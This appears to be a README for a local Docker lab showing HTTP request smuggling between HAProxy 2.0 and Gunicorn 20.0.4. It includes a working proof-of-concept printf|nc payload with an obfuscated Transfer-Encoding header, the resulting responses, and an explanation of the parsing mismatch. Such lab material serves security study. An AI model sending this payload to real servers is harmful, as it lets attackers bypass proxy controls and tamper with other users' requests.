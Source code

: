 #	LAB3

##	Composition

1.HaProxy 2.0

2.Gunicorn 20.0.4

##	Usage

###	build

```bash
docker-compose up
```

###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
HTTP/1.1 200 OK
```

9 HTTP code 200 means all right! 

Enjoy!

###	POC
```bash
printf 'POST / HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Transfer-Encoding:\x0b chunked\r\n'\
'Connection:keep-alive\r\n'\
'Content-Length: 65\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST / HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Content-Length: 1\r\n'\
'\r\n'\
'0'\
| nc 127.0.0.1 9014
```

You will get two responses.

```http
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 06 Jul 2020 07:45:37 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 0
```

```http
HTTP/1.1 200 OK
Server: gunicorn/20.0.4
Date: Mon, 06 Jul 2020 07:45:37 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
Content-Length: 1

0
```



For haproxy, the following http request is just one request. It will ignore the `Transfer-Encoding` header and use `Content-Length` header to parse the post body. And more importantly, haproxy will pass the `Transfer-Encoding:[\x0b] chunked` to backend server gunicorn.

```http
POST / HTTP/1.1
Host: localhost
Transfer-Encoding:[\x0b] chunked
Connection:keep-alive
Content-Length: 65

0

POST / HTTP/1.1
Host: localhost
Content-Length: 1

0
```

So, for gunicorn, the http request are two requests because it use `Transfer-Encoding` header to parse the post body. The first request is this.

```http
POST / HTTP/1.1
Host: localhost
Transfer-Encoding:[\x0b] chunked
Connection:keep-alive
Content-Length: 65

0
```

The second request is this.

```http
POST / HTTP/1.1
Host: localhost
Content-Length: 1

0
```



For details, you can build a echo server instead of gunicorn to see how haproxy deal with the `Transfer-Encoding:[\x0b] chunked` header.

#	Reference

[HAProxy HTTP request smuggling](https://nathandavison.com/blog/haproxy-http-request-smuggling)

[DefCon 2020 Quals uploooadit](https://github.com/o-o-overflow/dc2020q-uploooadit)



